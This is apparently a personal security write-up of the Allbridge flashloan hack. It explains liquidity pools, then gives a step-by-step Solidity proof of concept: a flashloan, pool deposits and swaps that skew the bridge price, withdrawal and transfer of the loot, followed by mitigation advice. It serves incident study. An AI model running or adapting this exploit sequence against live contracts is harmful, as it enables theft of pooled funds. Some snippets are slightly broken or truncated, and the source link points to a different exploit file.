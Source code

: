 # Allbridge


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks

![Swag Image](../images/swag2.drawio.png)

## Amount stolen
$550k USD

2-04-2023

## Vulnerability
flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The attacker was able to act as the liquidity prover and swapper resulting the user to manipulate the price and drain funds from the pool



## exploited code

```solidity

  function withdraw(uint256 amountLp) external {
    uint 256 totalLpAmount_ = totalLpAmount; // Gas optimization

    _withdrawLp(msg.sender, amountLp);

    // Calculate actual and virtual tokens using burned LP amount share
    // Swap the difference, get total amount to transfer/burn
    uint256 amountSP = _preWithdrawSwap(
       tokenBalance * amountLp / totalLpAmount_,
       vUsdBalance * amountLp / totalLpAmount_
    );

    // Always equal amounts removed from actual and virtual tokens
 
```

## whats a pool?

Liquidity pools allow users to trade digital assets on decentralized exchanges 
within the decentralized finance (DeFi) ecosystem,

The assets held in a liquidity pool are locked in place by a smart
contract and are added to the pool by liquidity providers. 

In most cases, providers add an equal value of two tokens to a 
pool to create a market, which is similar to trading pairs on traditional exchanges. 

Market participants that provide liquidity (contribute crypto assets) to a liquidity pool will earn trading fees as 
a reward for the trades executed within the pool. 

# proof of concept (PoC) 


 - We start with a flashloan $7.5M of BUSD `pancakeSwap.swap(0, 7_500_000e18, address(this), "Test");`


During that flashloan we execute the following:

 - 2 million of 7.5 will be swapped for $2M of $BSC-USD in pool_0x312B
```solidity
        BUSD.approve(address(pool_0x312B), type(uint256).max);
        BSC_USD.approve(address(pool_0x312B), type(uint256).max);
        pool_0x312B.swap(address(BUSD), address(BSC_USD), 2_003_300e18, 1, address(this), block.timestamp + 100 seconds);
```


Then deposits $5M BUSD into pool 0x179a

```solidity
        BUSD.approve(address(pool_0x179a), type(uint256).max);
        pool_0x179a.deposit(5_000_000e18);
```

Swap BUSD to BSC_USD

```solidity
          pool_0x312B.swap(address(BUSD), address(BSC_USD), 496_700e18, 1, address(this), block.timestamp + 100 seconds);
```

Deposit $2 mil into pool_0xb19c

```solidity
        BSC_USD.approve(address(pool_0xb19c), type(uint256).max);
        pool_0xb19c.deposit(2_000_000e18);
```

The attacker then swaps $500K BSC-USD for $BUSD 
        in Allbridge's Bridge contract, resulting in a high 
        dividend for the previous liquidity deposit.



```solidity
   bytes32 bsc_usd = 0x00000000000000000000000055d398326f99059ff775485246999027b3197955;
        bytes32 busd = 0x000000000000000000000000e9e7cea3dedca5984780bafc599bd69add087d56;

        uint256 BSC_USD_bal = BSC_USD.balanceOf(address(this));
        bridge.swap(BSC_USD_bal, bsc_usd, busd, address(this));
```

   The BUSD liquidity in 0x179a is then removed, 
        at which point the liquidity balance within 
        the 0x179a pool is broken.

```solidity
          pool_0x179a.withdraw(4_830_262_616);
```
 
  The attacker was then able to swap out $790,000 
        of BSC-USD from Bridge using only $40,000 of BUSD.
        

```solidity
           bridge.swap(40_000e18, busd, bsc_usd, address(this));
```

Withdraw from pool_0xb19c
 
```solidity
        pool_0xb19c.withdraw(1_993_728_530);
```


Swap BSC_USD to BUSD in pool_0x312B

```solidity
        BSC_USD_bal = BSC_USD.balanceOf(address(this));
        pool_0x312B.swap(address(BSC_USD), address(BUSD), BSC_USD_bal, 1, address(this), block.timestamp + 100 seconds);
```


Repay flashloan


 ```solidity
        BUSD.transfer(address(pancakeSwap), 7_522_500e18);
```

Transfer loot to attacker


```solidity
        BUSD.transfer(tx.origin, BUSD.balanceOf(address(this)));
```


```solidity
    console.log("hacker BUSD bal after attack is        ", BUSD.balanceOf(tx.origin));
```

## Mitigation and Best Practices:



Ensure verification in the bridge swap price calculation, and prohibit users from assuming multiple roles within the price calculation business logic for any given pool.

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 USD should not have been able to purchase 700,000 BSC tokens, preventing potential vulnerabilities or exploits.


## Conclusion 

xd


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
